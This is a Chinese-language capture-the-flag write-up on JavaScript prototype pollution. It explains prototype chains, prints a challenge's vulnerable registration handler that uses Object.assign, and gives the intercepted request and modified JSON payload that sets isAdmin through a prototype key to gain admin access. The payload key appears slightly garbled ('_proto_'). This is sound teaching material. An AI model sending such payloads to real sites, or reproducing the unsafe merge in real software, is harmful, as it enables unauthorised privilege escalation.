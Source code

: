 # wife-wife【原型链污染】[难度：4]

- 题目界面
    - 注册界面
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled.png)
        
    - 登录界面
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%201.png)
        
    - 思路：在注册界面，利用原型链污染漏洞，获得管理员权限。
- 步骤
    - 在注册界面输入用户名-密码-邀请码，勾选admin选项，抓包
        
        ```bash
        POST /register HTTP/1.1
        Host: 61.147.171.105:63129
        Content-Length: 69
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
        Content-Type: text/plain;charset=UTF-8
        Accept: */*
        Origin: http://61.147.171.105:63129
        Referer: http://61.147.171.105:63129/register.html
        Accept-Encoding: gzip, deflate, br
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        
        **{"username":"123","password":"123","isAdmin":true,"inviteCode":"123"}**
        ```
        
    - 将post中的数据加入”_proto_”字段，放包，显示用户注册成功。
        
        ```bash
        {"username":"123","password":"123",**"_proto_":{"isAdmin":true}**,"inviteCode":"123"}
        ```
        
    - 注册成功后跳转到登录界面，在此界面输入刚才注册的账号，拿到flag。
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%202.png)
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%203.png)
        
- 知识点
    
    ### 原型链污染
    
    - 概念
        - 原型链污染是一种 JavaScript 中的安全漏洞，它涉及到修改对象的原型链，从而影响到所有基于该原型链创建的对象。这种漏洞可能导致意外的行为和安全风险。
        - 在js语言中，每一个实例对象都有一个私有属性(**proto**)指向它的构造函数的原型对象(prototype)。而该原型对象又有一个自己的原型对象，直到根部object对象，它是几乎所有javascript对象的祖宗，所以它是没有原型的。
        - 一个对象的_proto_属性指向所在类的prototype属性
    - 实例
        
        js中，定义一个类需以构造函数的方式来定义。
        
        ```jsx
        var ad = function(){  
          this.a = 1;
          this.b = 2;
        }
        var we = new ad(); //从一个函数里创建一个对象we
        ad.prototype.b = 3;
        ad.prototype.c = 4;//在ad函数的原型对象中定义属性
        console.log(we.a);//we对象中有a属性，为1。
         
        console.log(we.b);//we对象也有b属性，为2.
        //原型中也有b属性，但是不会被访问到。也想当于重写。
        console.log(we.c);**//we对象没有c属性，所以在原型中找，为4**
        console.log(we.d);//d不是we对象的属性，继续看，d也不是
        //we.[[Prototype]]中的属性，继续，d也不是we.[[Prototype]].[[Prototype]]
        //中的属性，到此结束，返回undefined
        ```
        
    - 漏洞利用
        
        改变原型对象的属性，使得继承该原型对象的实例对象在本身不拥有某属性的情况下拥有某属性。
        
        ```jsx
        ob1 = {"a":123,"b":456};//创建一个对象ob1
        ob1.__proto__.ab = "123456";//添加原型属性ab并赋值123456
        console.log(ob1.ab);// 打印123456
        ob2 = {"a":1234,"b":5678};//创建一个对象ob2
        console.log(ob2.ab);// 打印123456
        ```
        
        本题中的关键代码如下所示：
        
        ```jsx
        app.post('/register', (req, res) => {
            let user = JSON.parse(req.body)
            if (!user.username || !user.password) {
                return res.json({ msg: 'empty username or password', err: true })
            }
            if (users.filter(u => u.username == user.username).length) {
                return res.json({ msg: 'username already exists', err: true })
            }
            if (user.isAdmin && user.inviteCode != INVITE_CODE) {
                user.isAdmin = false
                return res.json({ msg: 'invalid invite code', err: true })
            }
            let newUser = Object.assign({}, baseUser, user) //就是这里，原型链污染
            users.push(newUser)
            res.json({ msg: 'user created successfully', err: false })
        })
        ```
        
        **Object.assign触发了原型链污染**，使得实例对象的原型对象中isAdmin属性置为true。